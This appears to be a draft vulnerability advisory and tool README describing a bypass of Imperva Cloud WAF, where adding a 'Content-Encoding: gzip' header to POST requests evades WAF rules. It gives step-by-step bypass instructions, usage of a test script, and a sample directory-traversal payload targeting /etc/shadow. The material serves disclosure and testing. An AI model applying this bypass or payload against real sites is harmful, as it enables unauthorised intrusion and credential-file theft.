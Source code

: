 # Imperva Web Application Firewall (WAF) POST Request Bypass 
Imperva Cloud WAF __OTHER_AFFECTED_PRODUCTS__ is vulnerable to a bypass that allows attackers to evade WAF rules when sending malicious HTTP POST payloads, such as log4j exploits, SQL injection, command execution, directory traversal, XXE, etc.

## Remediation
All customers of Cloud WAF are automatically patched as of __INSERT_PATCH_DATE__.
* Talk about __OTHER_AFFECTED_PRODUCTS__ before going live.

## To Exploit It
Add the header `Content-Encoding: gzip` to HTTP POST requests. Leave POST data as-is. Don't encode it. So long as the first four bytes of the `Content-Encoding` header are `gzip`, no WAF rules will be applied to POST requests.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it; you're good to go.

# Running the Test Script
Run `imperva_gzip.py` against a URL that supports POST requests like this:

Syntax:
	`./imperva_gzip.py [[-t] | [-r]] URL`

Guess the WAF type for a given URL:
```
$ ./imperva_gzip.py -t https://www.vulnerable.com/search
Imperva Incapsula
$ ./imperva_gzip.py -t https://www.wordpress-user.com/login
WordFence
$ ./imperva_gzip.py -t https://www.cloudflare-customer.com
Cloudflare
```

Check to see if the WAF is vulnerable to the gzip bypass:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[+] Checking for Imperva WAF...
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable! HTTP response code: 200
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable! HTTP response code: 200
```

If you get this error:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[!] Can't POST to https://www.vulnerable.com/search. Try -r if 30x redirects are allowed. HTTP response code: 302
```

then try passing `-r` on the command line to enable relaxed mode. Relaxed mode is off by default, which means a POST request is expected to elicit an HTTP 200 response from the server. `-r` expands the acceptable responses to HTTP 2xx, 3xx.

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
0: Returned after getting WAF type.
1: Command-line was invalid.
2: There was an error connecting. Could be DNS error, timeout, etc.
3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
4: A WAF was detected, but it wasn't Imperva.
5: The server responded to a test POST request with something other than HTTP 200.
128: There is an Imperva WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding, there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons?

## Affected Versions
### Imperva Cloud WAF
Cloud WAF is managed by Imperva. As as result, updates to Cloud WAF affect almost all customers at almost the same time. It is patched for all customers as of __INSERT_PATCH_DATE__. 

### __OTHER_AFFECTED_PRODUCTS__

## SecureSphere
The `gzip` bypass bug has been remediated in a separate Imperva product called SecureSphere. The [release notes for v12.6 of SecureSphere](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm) contain this paragraph:

> SPHR-58185: When SecureSphere failed to decompress POST body in requests with "Content-Encoding: gzip/deflate" header, it issued no alert and let the request through.

I'm pretty sure this is the same bug, perhaps with the same code heritage as Cloud WAF... it's a pretty specific bug to be in two products. The issue was resolved for SecureSphere in February 2021, but we don't know when it was introduced. It's possible that the vulnerability has been there for years!

## Contact
### Bishop Fox
* Author: [@carllivitt](https://twitter.com/carllivitt)
* Bishop Fox: [@bishopfox](https://twitter.com/bishopfox)
* Continuous Offensive Security: [Cosmos](https://bishopfox.com/platform)

### Imperva
__CONTACT_DETAILS__
url, email, phone, social, etc

## References
* [Imperva Cloud WAF](https://www.imperva.com/products/web-application-firewall-waf/)
* [Imperva SecureSphere 12.6 release notes](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm)
* [Content-Encoding HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding)
